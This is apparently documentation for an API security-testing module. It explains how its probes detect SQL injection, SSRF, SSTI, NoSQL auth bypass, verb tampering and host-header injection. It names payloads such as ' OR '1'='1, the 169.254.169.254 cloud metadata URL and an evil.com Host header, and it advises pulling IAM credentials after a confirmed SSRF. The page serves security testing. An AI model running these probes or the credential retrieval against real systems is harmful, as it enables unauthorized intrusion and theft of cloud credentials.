

# API Injection and Validation Checks

Probe parameter-level injection and input-handling failures: running SQL injection, SSTI, SSRF, path traversal, XXE, prototype pollution, and format string payloads against discovered API parameters; testing verb tampering 12 HTTP methods + 4 override headers; switching content types to bypass validators; duplicating parameters for pollution; and probing webhook endpoints for SSRF to cloud metadata.

---

## Why this exists

1. **API parameter injection requires category-specific confirming signals, not just error code differences.** `probe_param()` tests 8 injection categories SQL injection, SSTI, SSRF, path traversal, pickle/RCE, format string, XXE, prototype pollution against each discovered parameter. Each category has a defined `CONFIRMING_SIGNALS` set: SQL injection requires `SQL_REFLECT` (MySQL/Oracle/SQLite error in response), not just `PATH_ACCESS`; SSRF requires `SSRF_ACTIVE` connection refused from server-side attempt or `SSRF_CLOUD_METADATA` 169.254.x.x or AWS metadata content; SSTI requires `SSTI_EVAL` (`49` in the response to `{{7*7}}`). This prevents false positives from server-side path handling errors that match injection payloads superficially.

2. **HTTP verb tampering bypasses API gateways that enforce authorization only on GET and POST.** A DELETE endpoint that requires admin credentials may be accessible via a POST with `X-HTTP-Method-Override: DELETE` header if the gateway strips method override headers before applying access control but the backend reads the override header directly. `probe_verb_tampering()` tests all 12 HTTP methods against each endpoint skipping methods the endpoint already declares, plus 4 method override headers `X-HTTP-Method-Override`, `X-HTTP-Method`, `X-Method-Override`, `_method`.

3. **Webhook endpoints that accept URLs from user input and fetch them server-side are the most common SSRF surface in API services.** `probe_webhook_ssrf()` uses a sentinel baseline comparison: sending a garbage URL first to establish what an "ignored parameter" response looks like, and only reports when the cloud metadata URL produces a response that differs from the baseline. This eliminates false positives from APIs that return the same 200 regardless of parameter value.

---

## How it works



---

## Usage

```python
from modules.api_re import (
    probe_param,
    probe_verb_tampering,
    probe_content_type_switch,
    probe_param_pollution,
    probe_nosql_injection,
    probe_webhook_ssrf,
    probe_host_header_injection,
)

base = 'https://target.internal'

# Parameter injection — call per parameter
results = probe_param(base, '/api/users', 'id', method='GET')
for category, hits in results.items():
    for h in hits:
        print(f"[{category}] CONFIRMED: {h['confirmed_signals']} payload={h['payload']!r}")
        print(f"  response: {h['body'][:100]}")

# Verb tampering
verb_findings = probe_verb_tampering(base, endpoints)
for f in verb_findings:
    if 'override_header' in f:
        print(f"[VERB_OVERRIDE] {f['override_header']}: {f['override_method']} on {f['endpoint']} → {f['status']}")
    else:
        print(f"[VERB] {f['method']} {f['endpoint']} → {f['status']} (note: {f['note']})")

# NoSQL injection
nosql_findings = probe_nosql_injection(base, endpoints)
for f in nosql_findings:
    if f['type'] == 'nosql_auth_bypass':
        print(f"[CRITICAL] NOSQL_AUTH_BYPASS {f['endpoint']}: {f['response'][:150]}")
    else:
        print(f"[{f['type'].upper()}] {f['endpoint']} payload={f.get('payload')} size={f.get('size')}")

# Webhook SSRF
ssrf_findings = probe_webhook_ssrf(base, endpoints)
for f in ssrf_findings:
    if f['type'] == 'webhook_ssrf_metadata':
        print(f"[CRITICAL] WEBHOOK_SSRF_METADATA: {f['path']} param={f['param']}")
        print(f"  metadata content: {f['body'][:200]}")
    elif f['type'] == 'webhook_ssrf_diff':
        print(f"[HIGH] WEBHOOK_SSRF_DIFF: {f['path']} param={f['param']} (response changed)")

# Host header injection
host_findings = probe_host_header_injection(base, endpoints)
for f in host_findings:
    print(f"[{f['type'].upper()}] {f.get('header','Host')}={f.get('host','evil.com')} status={f.get('status')}")
```

---

## Example output

```
[ssrf] CONFIRMED: ['SSRF_CLOUD_METADATA'] payload='http://169.254.169.254/latest/meta-data/'
  response: {"ami-id":"ami-0a1b2c3d","instance-id":"i-0123456789abcdef"}

[sql_injection] CONFIRMED: ['SQL_REFLECT'] payload="' OR '1'='1"
  response: You have an error in your SQL syntax near '' OR '1'='1'' at line 1

[VERB_OVERRIDE] X-HTTP-Method-Override: DELETE on /api/users/1 → 200

[CRITICAL] NOSQL_AUTH_BYPASS /api/auth/login:
  {"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...","user":{"id":1,"role":"admin"}}

[CRITICAL] WEBHOOK_SSRF_METADATA: /api/webhooks param=url
  metadata content: {"Code":"Success","Type":"AWS-HMAC","AccessKeyId":"AKIA...","SecretAccessKey":"..."}

[HOST_HEADER_REFLECT] X-Forwarded-Host=evil.com status=200
  (evil.com appeared in response — password reset link will contain evil.com)
```

---

## False positives

**`SSRF_ACTIVE` signal from network errors unrelated to SSRF.** The `SSRF_ACTIVE` signal fires when `"connection refused"` or `"no route to host"` appears in the response body. Some APIs return these strings in generic error messages when any backend service is unreachable, not specifically when the SSRF URL is fetched. Before reporting, confirm the error message appears only when the SSRF URL is sent and not when sending a benign value to the same parameter.

**`PATH_ACCESS` signal fires on injection categories it cannot confirm.** `CONFIRMING_SIGNALS` deliberately excludes `PATH_ACCESS` from SQL injection, SSTI, SSRF, and XXE categories. This prevents a path-handling error (server trying to `open(payload)`) from being miscategorized as SQL injection when the response contains `"errno"` from a file operation. If a probe reports `signals=['PATH_ACCESS']` only (not in `confirmed_signals`), it is a path traversal indicator, not a SQL injection indicator: the signal is correct but the category it appears under may mislead.

**`NOSQL_JSON` fires on endpoints that return 200 for any POST body regardless of content.** Some APIs return HTTP 200 with an error body (`{"error":"invalid field"}`) even when the JSON body is invalid. If the response length exceeds 100 bytes and the status is 200, `probe_nosql_injection()` records a `nosql_operator_inject` finding. Confirm by checking whether the response contains actual data fields user list, records rather than an error message.

---

## Pipeline position

**Before this module:** Run `probe_api_surface()` to discover endpoints with parameter lists (`ep.params`). `probe_param()` requires a specific path and parameter name, it does not discover parameters itself. Run it on parameters identified from OpenAPI specs, response introspection, or endpoint enumeration.

**After this module:** For confirmed `SSRF_CLOUD_METADATA` findings: retrieve the IAM credentials from `http://169.254.169.254/latest/meta-data/iam/security-credentials/` before reporting: demonstrating actual credential access is stronger evidence than an internal IP response. For `NOSQL_AUTH_BYPASS` findings: use the issued token to confirm admin access before reporting critical impact.

---

## Reading findings

| Finding signal | Meaning |
|:---|:---|
| `SSRF_CLOUD_METADATA` | Server fetched attacker-provided URL and returned cloud metadata content |
| `SSRF_ACTIVE` | Server attempted the URL connection refused confirms server-side request |
| `SQL_REFLECT` | SQL error message in response: injection payload reached SQL layer |
| `SSTI_EVAL` | `{{7*7}}` evaluated to `49`: template engine processes user input |
| `FILE_READ` | `/etc/passwd` content in response: path traversal or XXE confirmed |
| `nosql_auth_bypass` | NoSQL `$ne` operator bypassed authentication: token issued for unauthenticated user |
| `webhook_ssrf_metadata` | Cloud metadata returned via webhook URL parameter: SSRF confirmed |
| `VERB_OVERRIDE` | Method override header accepted by backend despite endpoint declaration |

---

## See also

- [API Authorization Checks](api-authorization-checks.md): BOLA/BFLA/mass assignment probes for the same endpoints
- [API Authentication and Token Checks](api-authentication-and-token-checks.md): JWT/OAuth2 checks for the auth layer
- [API Reverse Engineering](api-re.md): full 15-phase workflow that calls these injection probes as sub-phases
